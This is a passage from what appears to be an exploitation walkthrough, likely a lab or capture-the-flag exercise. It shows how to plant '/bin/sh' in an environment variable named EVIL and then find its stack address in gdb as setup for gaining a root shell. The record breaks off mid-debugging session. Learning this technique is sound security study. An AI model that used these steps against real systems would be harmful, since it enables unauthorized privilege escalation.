 <p>Hmmm, <code>/bin/bash</code> looks interesting, but not exactly what we want cause it won’t give you the root privilege, we need to put out own <code>/bin/sh</code> there. <br>
The way to do it in <code>LINUX</code> command line is :</p>



<pre class="prettyprint"><code class=" hljs makefile">user@host:/your-dir$ export EVIL=/bin/sh
user@host:/your-dir$ env
<span class="hljs-constant">_system_type</span>=Linux
<span class="hljs-constant">SSH_CONNECTION</span>=170.140.151.178 60648 172.18.1.11 22
<span class="hljs-constant">LANG</span>=en_US.UTF-8
<span class="hljs-constant">rvm_bin_path</span>=/usr/local/rvm/bin
<span class="hljs-constant">OLDPWD</span>=/
<span class="hljs-constant">rvm_version</span>=1.29.3 (latest)
<span class="hljs-constant">RUBY_VERSION</span>=ruby-2.4.1
<span class="hljs-constant">GEM_HOME</span>=/usr/local/rvm/gems/ruby-2.4.1
<span class="hljs-constant">USER</span>=user
<span class="hljs-constant">PWD</span>=/c0re
<span class="hljs-constant">_system_version</span>=9
<span class="hljs-constant">HOME</span>=/home/user
<span class="hljs-constant">_system_name</span>=Debian
<span class="hljs-constant">SSH_CLIENT</span>=170.140.151.178 60648 22
<span class="hljs-constant">EVIL</span>=/bin/sh
<span class="hljs-constant">_system_arch</span>=x86_64
<span class="hljs-constant">GEM_PATH</span>=/usr/local/rvm/gems/ruby-2.4.1:/usr/local/rvm/gems/ruby-2.4.1@global
<span class="hljs-constant">SSH_TTY</span>=/dev/pts/0
<span class="hljs-constant">rvm_path</span>=/usr/local/rvm
<span class="hljs-constant">MAIL</span>=/var/mail/user
<span class="hljs-constant">TERM</span>=xterm
<span class="hljs-constant">SHELL</span>=/bin/bash
<span class="hljs-constant">rvm_prefix</span>=/usr/local
<span class="hljs-constant">SHLVL</span>=1
<span class="hljs-constant">LOGNAME</span>=user
<span class="hljs-constant">MY_RUBY_HOME</span>=/usr/local/rvm/rubies/ruby-2.4.1
<span class="hljs-constant">PATH</span>=/usr/local/rvm/gems/ruby-2.4.1/bin:/usr/local/rvm/gems/ruby-2.4.1@global/bin:/usr/local/rvm/rubies/ruby-2.4.1/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/rvm/bin:/home/user/bin
<span class="hljs-constant">IRBRC</span>=/usr/local/rvm/rubies/ruby-2.4.1/.irbrc
<span class="hljs-constant">_</span>=/usr/bin/env</code></pre>

<p>We now have an <code>EVIL</code> environment variable as <code>/bin/sh</code>. Yayyy! <br>
The next step will be trying to figure out where is this variable is stored. Of course this can be achieved in <code>gdb</code>. Remember that the environment variables are only loaded to the stack when the program is running. </p>



<pre class="prettyprint"><code class=" hljs lasso">(gdb) info <span class="hljs-built_in">variable</span> environ
<span class="hljs-literal">All</span> variables matching regular expression <span class="hljs-string">"environ"</span>:

Non<span class="hljs-attribute">-debugging</span> symbols:
<span class="hljs-number">0xf7fc6dbc</span>  __environ
<span class="hljs-number">0xf7fc6dbc</span>  _environ
<span class="hljs-number">0xf7fc6dbc</span>  environ
(gdb) x/s <span class="hljs-subst">**</span><span class="hljs-number">0xf7fc6dbc</span>
<span class="hljs-number">0xffffdc5c</span>:     <span class="hljs-string">"_system_type=Linux"</span>
(gdb) x/s <span class="hljs-subst">**</span><span class="hljs-number">0xf7fc6dbc</span><span class="hljs-subst">+</span><span class="hljs-number">1</span>
<span class="hljs-number">0xffffdc5d</span>:     <span class="hljs-string">"system_type=Linux"</span>
(gdb)
<span class="hljs-number">0xffffdc6f</span>:     <span class="hljs-string">"SSH_CONNECTION=170.140.151.178 60648 172.18.1.11 22"</span>